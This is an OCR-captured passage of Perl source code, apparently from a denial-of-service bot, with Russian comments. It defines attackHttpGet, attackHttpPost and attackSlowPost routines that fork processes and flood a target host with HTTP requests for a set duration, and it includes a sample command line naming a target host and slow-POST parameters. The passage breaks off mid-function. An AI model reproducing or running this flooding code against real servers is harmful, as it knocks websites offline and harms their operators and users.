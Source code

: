 		alarm (0);
		my $itime = time;
		my ($cur_time);
		$cur_time = time - $itime;

		print "attackHttpGet started!\n";		

		while ($duration > $cur_time){
			$cur_time = time - $itime;
			sendGetRequest ($host, $port, $path);
			sleep $sleep;
		}
		exit;
	}
	else {
		return $child;
	}
}

# ПОСТ атака (парамерты : хост, порт, путь до скрипта, время ожидания между запросами, текстовый буффер для отсылки в теле ПОСТа)
sub attackHttpPost {
	$SIG{CHLD} = \&REAPER;
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];
		my $sleep = $_[3];
		my $content = $_[4];
		my $duration = $_[5];

		alarm (0);
		my $itime = time;
		my ($cur_time);
		$cur_time = time - $itime;

		print "attackHttpPost started!\n";		

		while ($duration > $cur_time){
			$cur_time = time - $itime;
			sendPostRequest ($host, $port, $path, $content);
			sleep $sleep;
		}
		exit;
	}
	else {
		return $child;
	}
}

#id3|slowpost|ya3.ru|3128|/index.html|20|1024|30|PING_TIME',
#print "id = $1| type = $2| host = $3| port = $4 | path = $5 | sleep = $6 | maxbodylen = $7| duration = $8| pingtime = $9\n";
sub attackSlowPost {
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];
		my $sleep = $_[3];
		my $maxLen = $_[4];
		my $duration = $_[5];
